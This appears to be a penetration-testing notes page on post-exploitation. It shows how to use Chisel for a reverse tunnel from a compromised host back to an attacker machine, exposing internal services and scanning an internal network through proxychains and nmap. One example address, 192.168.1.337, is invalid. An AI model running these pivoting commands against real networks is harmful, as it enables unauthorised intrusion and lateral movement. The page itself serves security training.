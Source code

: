```yaml
---
description: This page contains notes on post-exploitation
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Post Exploitation

### About Post Exploitation

Post-exploitation refers to the phase of a cybersecurity attack that occurs after an attacker has successfully compromised a target system. During this phase, the attacker aims to maintain access, gather valuable information, escalate privileges, and potentially launch further attacks. It involves activities such as lateral movement within the network, data exfiltration, creating backdoors, and covering their tracks to avoid detection. Post-exploitation is a crucial part of the attack lifecycle as it allows the attacker to maximize the impact of their initial compromise and achieve their ultimate objectives.

### Tunneling with Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

#### Exposing Internal Service

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

On attacker machine, run this command:

```bash
chisel server -p 2525 --socks5 --reverse -v
```

Example, on target there is service running on port 8000 at localhost, then run this command:

```bash
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Now, we can access the service from port 8001 on our machine.

#### Scanning Internal Server / IP

From attacker machine, run chisel server.

```
./chisel server -p 31337 --socks5 --reverse -v
```

From Client:&#x20;

```
./chisel client 10.10.200.13:31337 R:31338:socks
```

Now, from attacker machine, add proxy to proxychains4.conf

```
socks5 127.0.0.1 31338
```

Now you can scan internal target IP from attacker machine.

```
proxychains4 nmap 192.168.1.337
```

{% content-ref url="../linux/linux-post-exploitation.md" %}
[linux-post-exploitation.md](../linux/linux-post-exploitation.md)
{% endcontent-ref %}

{% content-ref url="../active-directory/post-exploitation/" %}
[post-exploitation](../active-directory/post-exploitation/)
{% endcontent-ref %}
